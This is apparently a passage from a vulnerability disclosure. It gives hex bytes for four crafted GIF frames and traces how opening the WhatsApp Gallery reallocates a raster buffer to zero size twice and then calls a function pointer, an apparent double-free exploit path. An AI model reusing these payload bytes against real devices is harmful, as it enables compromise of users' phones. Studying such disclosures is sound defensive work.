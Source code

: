 ```
```
It contains four frames:
- Frame 1:
```
2C 00 00 00 00 08 00 15 00 00 08 9C 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
F0 CE 57 2B 6F EE FF FF
```
- Frame 2:
```
2C 00 00 00 00 1C 0F 00 00 00 00
```
- Frame 3:
```
2C 00 00 00 00 1C 0F 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00
```
- Frame 4:
```
2C 00 00 00 00 18 00 0A 00 0F 00 01 00 00
```
The below sequence is what happened when WhatsApp Gallery is opened:
- First parse:
    - Init:
        - GifInfo *info = malloc(168);
    - Frame 1:
        - info->rasterBits = reallocarray(info->rasterBits, 0x8*0x15, 1);
    - Frame 2:
        - info->rasterBits = reallocarray(info->rasterBits, 0x0*0xf1c, 1);
    - Frame 3:
        - info->rasterBits = reallocarray(info->rasterBits, 0x0*0xf1c, 1);
    - Frame 4:
        - does not matter, it is there to make this GIF file valid
- Second parse:
    - Init:
        - GifInfo *info = malloc(168);
    - Frame 1:
        - info->rasterBits = reallocarray(info->rasterBits, 0x8*0x15, 1);
    - Frame 2, 3, 4:
        - does not matter
    - End:
        - info->rewindFunction(info);
